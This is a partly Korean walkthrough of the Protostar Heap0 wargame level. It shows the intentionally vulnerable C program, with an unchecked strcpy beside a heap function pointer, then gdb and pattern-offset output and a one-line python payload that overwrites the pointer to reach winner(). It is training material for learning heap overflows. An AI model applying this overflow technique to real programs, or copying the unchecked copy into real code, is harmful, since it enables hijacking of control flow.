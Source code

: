 # Wargame / Protostar / Heap0

[Protostar Heap0 - Exploit Exercises](https://exploit-exercises.com/protostar/heap0/)

>This level introduces heap overflows and how they can influence code flow.
>
>This level is at /opt/protostar/bin/heap0


## Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));

  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);
  strcpy(d->name, argv[1]);

  f->fp();
}
```

## Analysis

```bash
$ ./heap0
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
```


```
(gdb) p winner
$1 = {void (void)} 0x8048464 <winner>
(gdb) p nowinner
$2 = {void (void)} 0x8048478 <nowinner>
(gdb) p data
$3 = (struct here_cg_arc_record *) 0x0
(gdb) p &data
$4 = (struct here_cg_arc_record **) 0xb7fff884
```


`data[64]` 뒤에 `fp` function pointer 있을 것으로 생각되니깐... `64` bytes 이후에 `winner()` 함수 주소 설정.

```bash
$ $ ./heap0 $(python -c 'print "A"*64 + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```

Exploit pattern 으로 다시 `fp` 주소 확인을 하면 72 bytes 뒤에 있네.

```bash
$ ./pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

$ ./pattern.py 0x41346341
Pattern 0x41346341 first occurrence at position 72 in pattern.
```

## Exploit

```bash
$ ./heap0 $(python -c 'print "A"*72 + "\x64\x84\x04\x08"')
```



